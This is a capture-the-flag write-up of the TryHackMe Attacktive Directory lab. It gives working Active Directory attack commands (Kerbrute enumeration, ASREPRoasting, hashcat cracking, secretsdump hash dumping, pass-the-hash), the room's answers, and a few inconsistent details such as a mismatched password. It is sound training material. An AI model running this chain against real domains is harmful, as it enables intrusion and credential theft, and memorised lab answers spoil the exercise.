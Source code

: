 ```yaml
---
title: "Tryhackme Attacktive Directory Write-up"
date: 2021-01-04 18.40 
categories: [Tryhackme, Windows]
tags: [Active Directory, Kerbrute, Impacket]
author: CEngover
image: /assets/img/posts/attacktive/ad.jpg
---
```


In this article, we're going to solve `Attactive Directory` vulnerable machine from [Tryhackme](https://tryhackme.com/). This room gives us the solution steps and we'll follow them one by one. Also I'll try some explanation of windows AD basics. I passed installation of impacket tool. Its coming with kali linux as installed and under `/usr/share/doc/python3-impacket/examples/` directory. If you don't have impacket tool you can install it following by [Impacket](https://github.com/SecureAuthCorp/impacket).

As always, let's start with nmap.

```bash
nmap -sC -sV -oA nmap/attactive-open-ports -T4 10.10.230.172
```

```bash
Nmap scan report for 10.10.230.172
Host is up (0.087s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-01-09 14:00:38Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-01-09T14:02:56+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-09-16T22:48:24
|_Not valid after:  2021-03-18T22:48:24
|_ssl-date: 2021-01-09T14:03:11+00:00; 0s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/9%Time=5FF9B70B%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-01-09T14:02:58
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  9 09:05:12 2021 -- 1 IP address (1 host up) scanned in 281.92 seconds

```
We have many open ports according to nmap scan output but we don't need to enumerate all of them.

## Enumerate the Domain Controller

We can use a tool called enum4linux to enumerate 139/445 ports. However, we won't have a lot information to work with. Let's answerd the questions.

> What tool will allow us to enumerate port 139/445?
`enum4linux`

> What is the NetBIOS-Domain Name of the machine?
`THM-AD`

> What invalid TLD do people commonly use for their Active Directory Domain? (TLD means top level domain)
`.local`

## Enumerate the Domain Controller Part 2

As we saw that there are many ports are running services, including `Kerberos` on the target. Kerberos is a key authentication service within Active Directory. We can use [Kerbrute](https://github.com/ropnop/kerbrute/releases) to brute force. For user enumeration, the creator has created a user wordlist that will be used in this part.

```bash
./kerbrute -h #which will give us help menu
./kerbrute --dc spookysec.local -d spookysec.local userlist.txt #I've added 10.10.230.172 as spookysec.local to my hosts file.
```
After running given command, the result must be:

```bash
james@spookysec.local
svc-admin@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local
```

> What command within Kerbrute will allow us to enumerate valid usernames?
`userenum`

> What notable account is discovered? (These should jump out at you)
`svc-admin`

> What is the other notable account is discovered? (These should jump out at you)
`backup`

## Exploiting Kerberos

Using the information provided by the creator will help us to attack kerberos and understand it. 

> After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

Now, we'll use one of the impacket tools called `GetNPUsers.py` that allows us to query ASReproastable accounts from the Key Distribution Center. The command that we'll use is:

```bash
python3 GetNPUsers.py -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
```
![GetNPUser.py](/assets/img/posts/attacktive/getnpusers.png)

```bash
admin@spookysec.local@SPOOKYSEC.LOCAL:3cd68fdc6e963981929df345807b6e33$8fd461f80b743d0993c65e27898641fb85497c2738fc58d836133c4bba6e7124684afd9541dd61d58d1ec548b466af2f20491b4f807a0489db35dcc4315a030997aa33767f84324e5649a506cb5a47ed0b4f32f46d859c78e21749c7d7b35fda978153909830314bdde962eeb94a682ce45170a673f89a94c48227e15771f8659abbdada2013b8a9155eba8eca8035cd742295208e672a26a58fa2951f019be42b07e0e6ca00bfc5c1ae5e80ea933d30eee879d72f90529a055b1b10cac762ffbfc2cc4c7e4216a38ebda0697765d119a574925558bfef3b2099f774b431d51d0531223bf6e64f8fde4a50198da959f2c8f6
```

### Cracking the hash

```bash
hashcat -a 0 -m 18200 hash.txt password.txt --force
```
![Hashcat cracked](/assets/img/posts/attacktive/hashcat.png)

> We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?
`svc-admin`

> Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)
`Kerberos 5 AS-REP etype 23`

> What mode is the hash?
`18200`

> Now crack the hash with the modified password list provided, what is the user accounts password?
`management2005`

## Enumerate the Domain Controller Part 3

We can look at the shares that we can access with the user credential on the domain controller. To do this, we can use smbclient tool.

```bash
smbclient -L \\\\10.10.230.172\\ -U 'svc-admin' -P 'management2005'
```

When we log in, we will see a file named backup credentials.txt.

![Shares folder](/assets/img/posts/attacktive/smbclient.png)

When we receive this file, we will see a text encoded with base64. If we decode this text, we get backup user credentials.

> Using utility can we map remote SMB shares?
`smbclient`

> Which option will list shares?
`-L`

> How many remote shares is the server listing?
`6`

> There is one particular share that we have access to that contains a text file. Which share is it?
`backup`

> What is the content of the file?

`YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

> Decoding the contents of the file, what is the full contents?
`backup@spookysec.local:backup2517860`

## Elevating Privileges

The creater says that backup account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes. We'll use one of the impacket tools called `secretsdump.py` to dump password hashes.

```bash
python3 secretsdump.py -dc-ip spookysec.local backup:backup251786@spookysec.local
```
The result is;

```bash
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:ea69181c264a69d01f757680ce4eac21:::
```

> What method allowed us to dump NTDS.DIT?
`DRSUAPI`

> What is the Administrators NTLM hash?
`0e0363213e37b94221497260b0bcb4fc`

> What method of attack could allow us to authenticate as the user without the password?
`Pass the hash`

> Using a tool called Evil-WinRM what option will allow us to use a hash?
`-H`

![Evil WinRM](/assets/img/posts/attacktive/evilwinrm.png)

When we use Administrator account's hash to log in by passing the hash method via evilwinrm tool, we'll be Administrator user on the system.